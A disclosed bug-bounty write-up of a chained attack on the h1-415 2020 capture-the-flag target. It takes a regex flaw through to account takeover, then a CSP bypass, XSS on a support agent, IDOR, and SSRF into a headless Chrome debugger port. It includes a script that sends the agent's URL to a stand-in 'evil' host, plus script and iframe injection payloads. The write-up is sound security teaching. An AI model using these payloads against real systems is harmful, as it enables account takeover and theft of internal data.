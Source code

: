 # [h1-415 2020] Chain of vulnerabilities leading to account takeover and unauthorized access of sensitive internal resources

## Report Details
- **Report ID**: 781281
- **URL**: https://hackerone.com/reports/781281
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-01-23T06:00:34.450Z
- **Disclosed**: 2020-02-03T21:33:38.441Z

## Reporter
- **Username**: checkm50
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: h1-ctf

## Vulnerability Information
Note:
**Please read this report as "An attacker taking over a customer's account" and not as "helping Jobert recovering his document" :)**

## Summary:
Chaining following issues let's an attacker access sensitive information,
1. Exposure of customer email and regex logic error leading to account takeover
2. CSP bypass leading to arbitrary script execution on support portal and forced browsing
3. Exposure of internal host name
4. Insufficient authorization control allowing attacker to update other user's details
5. Stored XSS + SSRF leading to port scanning and access to internal resources

## Steps To Reproduce:
1. Regex logic error leading to account takeover - jobert@mydocz.cosmic email exposed in source code
   1a. 'jobert@mydocz.cosmic' seems to be a customer of MyDocz and the system does not allow any new registration with same email ID
   1b. Turn BurpSuite intercept on and capture following request,
         https://h1-415.h1ctf.com/register
   1c. Modify the email ID parameter as 'jobert@mydocz.cosmic<' , the flaw here is the QR code generation process trims following symbols 
         {<>}
   1d. Now after registration, save the QR code that the system generates
   1e. Logout of the application and navigate to https://h1-415.h1ctf.com/recover
   1f. Select the QR code saved previously and **now you have become jobert@mydocz.cosmic**

2. CSP bypass leading to arbitrary script execution on support portal and forced browsing
     2a. Support portal is vulnerable to HTML injection. One can bypass CSP rules like this
     https://raw.githack.com/mattboldt/typed.js/master/lib/@https://github.com/checkm50/checkm50.github.io/master/40.js
     2b. This triggers script execution on support portal but it is self-xss
     2c. Now right click on firefox/chrome and run following function,
           showReviewModal()
     2d. Rating 1 star makes the support agent review the chat logs and hence the script can be executed on agent's client
     2e. With a crafted script like below (Same as the script on 40.js), an attacker and gain information about the URL that the support agent 
      is using,
      ```loc = document.location
      var img1 = document.createElement('img');
      img1.src = 'http://evil/image.png?loc='+loc
      document.body.appendChild(img1);```

3. Exposure of internal host name and user agent
    3a. After performing step 2e, the attacker can now see the internal URL that the agent is using,
    https://localhost:3000/support/review/39b707f120c5fde356bf0f5daec51bee292d38862d2bc7d09ba032257365e2dd
    3b. Attacker can change the 'localhost:3000' to 'h1-415.h1ctf.com' in order to access the chat page that the support agent is viewing
 

4. Insufficient authorization control allowing attacker to update other user's details,
For further attack we need two accounts. We already have one, an attacker can also create trial account. **We will refer to this account as second account**
    4a. As you can see, the review page from step 3a. contains an option to update user details
    4b. Attacker can now update second account's "name" field, using following POST call,
          https://h1-415.h1ctf.com/support/review/39b707f120c5fde356bf0f5daec51bee292d38862d2bc7d09ba032257365e2dd
          name=<inject-here>&email=jobert%40mydocz.cosmic&username=jobert&user_id=<second account user_id>&_csrf_token=987d

5. Stored XSS + SSRF leading to port scanning and access to internal resources
     5a. From step 4b, we know that an attacker has to ability to update account information of another user
     5b. This becomes worst because the attacker is also able to inject script like below
     name=<script src='external.com/some.js'>&email=jobert%40mydocz.cosmic&username=jobert&user_id=6&_csrf_token=987d
     5c. An attacker can use this to inject an iframe like below and escalate the situation to SSRF (Port scanning and access internal resource)
     name=<iframe src='http://localhost:9222/json' width=900 height=900></iframe>
     5d. 9222 port because the user-agent says that it is headless chrome hence 9222 which is the debugger port
     5e. the /json end point reveals a secret document

The secret document contains,
## h1ctf{y3s_1m_c0sm1c_n0w}

## Supporting Material/References:
1. Support-portal.png
2. chat-review-page.png
3. external-interaction-ssrftest.png
4. user-update-ssrf.png
5. The-FLAG.png

Special thanks to @pirateducky, @almadjus and @mcipekci  :)

##Remediation:
Hire me :)

## Impact

An attacker is able to, 
achieve **take over of customers account**, 
**compromise the integrity** of the platform by updating other user accounts
**Infiltrate into internal network**
resulting in **Critical** impact

## Attachments
No attachments
